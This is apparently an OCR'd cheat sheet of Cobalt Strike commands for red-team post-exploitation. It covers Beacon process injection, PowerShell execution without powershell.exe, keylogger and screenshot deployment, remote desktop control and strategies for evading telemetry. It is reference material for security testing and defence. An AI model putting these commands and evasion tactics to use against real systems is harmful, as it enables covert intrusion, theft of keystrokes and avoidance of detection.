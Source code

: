``` ./teamserver <IP> <Password> [Path to Malleable C2 Profile] [Kill Date for Beacon Payloads - YYYY-MM-DD]``` - To start the Team Server
Nowadays, it's difficult that an email passes the securities imposed by the providers: Aggressive spam filtering, higher standards, email antivirus, DMARC (Domain-Based Message Authentication, Reporting and Conformance), DKIM (DomainKeys Identified Mail), SPF (Sender Policy Framework)...

#### Assume Breach ####
If you're in the network, know lateral creds but do not have access to CS: Windows 7 VM w/out AV and execute the payload there.

- - - -

## Post Exploitation ##

### Beacon Management ###
* Access - Manipulate identity and privileges
* Explore - Control and gather data from the target
* Pivoting - Tunnel through this Beacon
* Session - Manage this access

#### Session Passing ####
* 'Beacon' > 'Spawn' or `spawn <arch> <listener>` - To spawn and inject
* `spawnu <pid> <listener>` - To spawn with alternate parent and inject
* `inject <pid> <arch> <listener>` - To inject into a specific process
* `spawnto <arch> <path> <args>` - To change the program CS launches for temporary processes to try to avoid detection

#### Execute ####
* `execute-assembly <local path>/<file>.exe <args>` - To use a .NET assembly through a Beacon
* `shell <command> <args>` - To run a command via cmd.exe
* `powerpick <cmdlet> <args>` - To use PowerShell without powershell.exe
* `psinject <pid> <arch> <cmdlet> <args>` - To run PowerShell within another process

#### File Browser ####
'Beacon' > 'Explore' > 'Browse Files'

#### User Exploitation ####
* `jobs`- To list jobs in a Beacon
* `jobkill <ID>` - To stop a job
* `screenshot <pid> <x86|x64> <time>` - Deploy screenshot tool. Results at: 'View' > 'Screenshots'
* `keylogger <pid> <x86|x64>` - Deploy Keylogger. Results at: 'View' > 'Keystrokes'
* `sleep 0` or `desktop <pid> <arch> <low|high>`- To watch or control a target's desktop

### Tradecraft ###
* Instrumentation and Telemetry
   * Observable does not mean observed
   * Evasion Strategies:
      * Disable the instrumentation
      * Spoof event properties to fool instrumentation
      * Avoid OPSEC-expensive behaviors
      * Adjust operations to blend in with legitimate activity or work within false positive exceptions
      * Change offsense model

* General Post-Exploitation Detections
   * Behaviors (Event)
      * Write a file to disk
      * Execute a program
      * Inject into new or existing processes
   * Process Context (Event Property)
      * explorer.exe, lsass.exe, notepad.exe, powershell.exe, rundll32.exe, svchost.exe
      * Other commonly abused applications
   * Post-exploitation tool - Memory Injected DLL (PiA)
      * Behavior - Resolution of GetProcAddress and LoadLibrary -> Set 'post-ex' > 'smartinject' to True
```